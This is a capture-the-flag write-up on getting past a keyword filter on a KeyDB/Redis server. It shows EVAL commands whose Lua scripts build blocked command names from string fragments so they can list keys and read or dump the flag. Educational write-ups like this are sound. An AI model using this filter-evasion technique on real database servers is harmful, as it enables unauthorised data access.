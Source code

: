 # Solution

A simple google search about keydb shows it is a fork of redis, which is a kv store db.
redis/keydb lets users upload and execute Lua scripts on the server, we can leverage from the eval() func to execute a lua code on our keydb cli.

https://docs.keydb.dev/docs/commands/#eval

`eval "return KeyDB.call('set','foo','bar')" 0`

this returns 🙀🙀🙀🙀🙀, thats because set and keydb, get, keys, etc.. are filtered.

Since keydb is fitlred we can replace it with redis. no harm in doin that, we already said keydb is a fork of redis.

okay, now how can we bypass "get" and "keys"? you have lua! simply create a local var and concat the two strings "ke" and "ys". now we can list our keys using either:

```
$ eval "local a='ke'; a=a..'ys'; local k=redis.call(a, '*'); return k;" 0
$ eval "local a='ke'; a=a..'ys'; return cjson.encode(redis.call(a, '*'))" 0
``` 

okay we can see the flag, but ig is also filtered. what now? dw, just like we did to "keys", lets create a new local var b to hold the "flag" for us.

```
$ eval "local a='du'; a=a..'mp';local b='fl';b=b..'ag'; local k=redis.call(a, b); return k;" 0
$ eval "local a='ge'; a=a..'t';local b='fl';b=b..'ag'; return cjson.encode(redis.call(a, b))" 0
```

hope there is unintended for this :').